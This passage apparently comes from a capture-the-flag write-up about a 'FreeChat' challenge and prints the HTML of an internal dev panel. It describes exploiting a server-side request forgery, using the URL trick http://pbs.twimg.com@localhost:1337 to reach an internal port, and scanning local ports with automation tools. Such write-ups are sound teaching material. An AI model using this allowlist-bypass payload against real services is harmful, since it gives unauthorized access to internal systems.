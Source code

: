 ![pfp4](img/pfp4.png)

We can get the content of any page on the internet, this looks like a pretty clean SSRF! We can script the check of every local port using Burp's intruder, Python or any other automation tool. The port internal port :1337 (http://pbs.twimg.com@localhost:1337) sends us a "valid" response, which means we've managed to access an internal app.

```html
<!DOCTYPE html>
<html>
<head>
    <title>FreeChat - Dev Panel</title>
    <script src="/static/js/hint.js"></script>
</head>
<body>
    <div style="text-align: center;">
        <h1>FreeChat - Dev Panel</h1>
        <h3>Welcome dev, to access the panel, please enter your access token</h3>
        <form action="http://devpanel:8000/" action="GET">
            <input type="text" name="token" placeholder="Access Token">
            <input type="submit" value="Submit">
        </form>
        <div>
            <h5 style="display: inline-block;">Forgot your token ? </h5>
            <button onclick="hint()" style="display: inline-block;">Hint</button>
        </div>
        <div id="hint"></div>
    </div>

</body>
</html>
```
